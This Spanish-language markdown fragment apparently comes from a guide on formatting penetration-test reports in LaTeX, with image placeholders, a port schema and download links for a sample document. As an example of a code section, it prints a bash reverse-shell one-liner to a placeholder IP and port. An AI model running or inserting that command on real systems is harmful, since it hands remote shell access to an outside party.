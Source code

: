 <img src="imgs/redaccionDeInformes/Cheese6.png">

<br>

<h3># Creacion de un esquema.</h3>
```tex
\begin{schema}{TCP}
Puertos\tableofcontents
\where
22, 80, 4444
\end{schema}
```
>
<img src="imgs/redaccionDeInformes/Cheese7.png">

<br>
<h3># Crear una seccion para un codigo.</h3>
```tex
/bin/bash -i >& /dev/tcp/{Ip}/{Puerto} 0>&1
```
>
<img src="imgs/redaccionDeInformes/Cheese8.png">


<br>
<h3># Descarga el pdf final, como ejemplo base.</h3>
<a href="files/Documento.pdf" download>Descargar PDF</a>

<h3># Descarga el archivo Documento.tex usado para la compilacion del pdf anterior.</h3>
<a href="files/Documento.tex" download>Descargar tex</a>

